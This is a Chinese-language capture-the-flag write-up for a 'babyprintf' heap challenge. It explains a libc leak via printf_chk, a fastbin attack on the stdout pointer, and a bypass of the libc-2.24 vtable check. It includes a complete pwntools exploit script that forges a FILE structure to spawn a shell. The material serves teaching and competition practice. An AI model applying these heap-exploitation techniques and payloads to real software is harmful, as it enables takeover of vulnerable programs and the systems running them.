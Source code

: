 题目只有malloc和一个printf_chk，printf_chk和printf不同的地方有两点：

1. 不能使用$n不连续的打印
2. 在使用%n的时候会做一系列检查

虽然如此，但leak libc地址还是可以的。这个我想大部分人都想到了。

然后重点就是如何使用程序唯一的堆溢出。没有free的问题 可以通过free topchunk解决，然后很多选手在这都使用了unsortedbin attack拿到shell。

如何通过unsortedbin attack利用我就不多说了, 应该会有其他wp放出。我说一下如何利用 fastbin attack解决这个问题。首先我们能free 一个top chunk，然后有了第一个就能有第二个，不断申请内存或者覆盖top chunk的size可以很轻易的做到这点。同时，我们可以另下面那个的size为0x41，之后申请上面那个堆块就能把下面这个fastbin覆盖了。通过这个0x41的fastbin attack, 我们可以覆盖到位于data段上的stdout指针，具体如下



```
--------------------            --------------------
  freed chunk1                       alloced
--------------------            --------------------
      dummy            ->                overflow
--------------------            --------------------
  freed chunk2(0x41)               chunk2->fd=target
--------------------            --------------------
```


当然libc中是存在onegadget的，所以也有人直接去覆盖malloc_hook，这些都可以
然后一个比较蛋疼的是libc-2.24的问题，因它为加入了新的对vtable的检验机制。如何绕过呢？这个方法很多，只要记得一点，我们已经能控制“整个“FILE结构体，这点如果稍微去看下源码的话应该能找到很多方法，这里提供一个替换vtable( _IO_file_jumps)到另一个vtable( _IO_str_jumps), 利用两个vtable defalut方法的不同拿到shell的解题脚本(偏移请自行更改)：

```
from pwn import *
context.log_level='debug'

def pr(size,data):
    p.sendline(str(size))
    p.recv()
    p.sendline(data)
    p.recvuntil('result: ')
    return p.recvuntil('size: ')[:-5]

p = process('./babyprintf')
p.recvuntil('size: ')
for i in range(32):
    pr(0xff0,'a')
p.sendline('0xe00')
p.recv()
p.sendline('%llx')
p.recvuntil('result: ')
libc_addr = int('0x'+p.recv(12),16)-0x3c6780
print 'libc: ',hex(libc_addr)
p.recvuntil('size: ')
pr(8,'a'*0x18+p64(0x1d1))
pr(0x1d0,'1')
pr(0x130,'1')
pr(0xd00,'1')
pr(0xa0,'a'*0xa8+p64(0x61))
pr(0x200,'a')
p.sendline('0x60')
p.recvuntil('string: ')
p.sendline('\x00'*0x2028+p64(0x41)+p64(0x601062))
p.recv()
pr(0x30,'a')

system_addr = libc_addr + 0x45390
sh_addr = libc_addr + 0x18cd17
malloc_addr = libc_addr + 0x84130
vtable_addr = libc_addr+0x3c37a0

flag=2|0x8000
fake_stream = p64(flag)+p64(0)
fake_stream += p64(0)*2
fake_stream += p64(0)
fake_stream += p64(0x7fffffffffffffff)
fake_stream = fake_stream.ljust(0x38,'\x00')
fake_stream += p64(sh_addr)
fake_stream += p64(sh_addr)
fake_stream = fake_stream.ljust(0xc0,'\x00')
fake_stream += p64(0xffffffffffffffff)
fake_stream = fake_stream.ljust(0xd8,'\x00')
fake_stream += p64(vtable_addr)
fake_stream += p64(malloc_addr) #alloc
fake_stream += p64(system_addr) #hook free
p.sendline('0x30')
p.sendline('a'*14+p64(0x601090)+p64(0)+fake_stream)

p.interactive()
```
